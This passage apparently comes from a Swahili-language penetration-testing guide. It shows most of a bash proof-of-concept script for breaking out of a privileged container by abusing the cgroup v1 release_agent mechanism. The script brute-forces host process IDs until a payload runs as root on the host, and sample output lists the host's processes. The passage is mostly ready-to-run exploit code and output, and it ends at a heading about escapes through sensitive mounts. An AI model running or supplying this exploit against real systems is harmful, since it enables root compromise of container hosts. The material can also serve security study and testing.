 ```bash
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
Kutekeleza PoC ndani ya chombo kilichopewa mamlaka kunapaswa kutoa matokeo kama:
```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```
#### Kutoroka kwa Kibali Kwa Kutumia Kufunga Nyeti
